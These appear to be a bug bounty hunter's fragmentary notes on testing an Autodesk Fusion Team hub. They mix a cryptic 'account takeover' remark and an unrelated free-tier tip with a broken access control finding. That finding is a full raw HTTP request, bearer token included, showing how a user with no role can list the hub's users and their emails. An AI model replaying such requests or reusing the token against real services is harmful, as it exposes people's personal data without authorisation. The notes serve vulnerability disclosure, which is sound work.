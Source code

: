 
---

[Z9WA-CZOU]

the code of : +newme

try the bug 

used just one time 
account takeover

---

**Editable files limit in free/private-use tier**: In a Fusion Team hub without a paid subscription (e.g., for personal use), you can have **only up to 10 editable files at a time**. You can still have more projects overall, but older ones need to be switched to **read-only** to open new ones as editable[](https://www.reddit.com/r/Fusion360/comments/1ehh630/4_projects_take_up_the_10_limit_i_have_and_i_cant/?utm_source=chatgpt.com)



----


### Bug : 
 BAC : no role user can see hub users + emails : 
 GET /fhq/v1/scopes/urn:adsk.fusion:scope:d1898a8c-e9c3-4d03-975d-4932be138336/users

**request : **

GET /fhq/v1/scopes/urn:adsk.fusion:scope:d1898a8c-e9c3-4d03-975d-4932be138336/users HTTP/1.1
Host: developer.api.autodesk.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://wearehackerone243.autodesk360.com/
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6IlZiakZvUzhQU3lYODQyMV95dndvRUdRdFJEa19SUzI1NiIsInBpLmF0bSI6ImFzc2MifQ.eyJzY29wZSI6WyJkYXRhOndyaXRlIiwiZGF0YTpyZWFkIiwiZGF0YTpjcmVhdGUiLCJkYXRhOnNlYXJjaCJdLCJjbGllbnRfaWQiOiJqSnNMYmxkVXllVjJkOUw5WDc5VFkyd2JDSnh4eW5UWiIsImlzcyI6Imh0dHBzOi8vZGV2ZWxvcGVyLmFwaS5hdXRvZGVzay5jb20iLCJhdWQiOiJodHRwczovL2F1dG9kZXNrLmNvbSIsImp0aSI6InBJZGJTamp5N3BuellvSmJvSlF2aGNWRDUwU0p2M0dQQXIyenIyaXlsNWR2WFFTR2NGVUhRdUN4ZHpXb2hYWEIiLCJ1c2VyaWQiOiJGUDRKNjQzR05LR1FIUEdYIiwiZXhwIjoxNzU3NTA1NTU0fQ.g3-GR-N56fqZyCr53lR7zEszccVoF_zNaWVyhVLL2bXFsokQdKwpLeEkvE_CG_zy9IXz0T-yEoyQ84XxbDSE4gk0SF37mzWVx-gqa8QYdTOH9NK6e4OOBq1NKMz0qVDd9Ug4_mA_qA7fZfYJeKWh8k9ndzSf1W2RxZLiTY6AxzayRUU0VJHfHo7skVlB-E0F_4IwwcQySoluHz_sa_3wCXoh0VyVVVofTiroJiq6CdJlrZEpvxlrSlpzcDN1yVNb0_l_WJlyuujWKL37EPoIRLy88rASz3r3-tmIIjMBD--xa05AvPtfW25O0VXI6pE9jtjnR4CN6lS8QoazhycfFw
Origin: https://wearehackerone243.autodesk360.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers
Connection: keep-alive


think if its an idor 

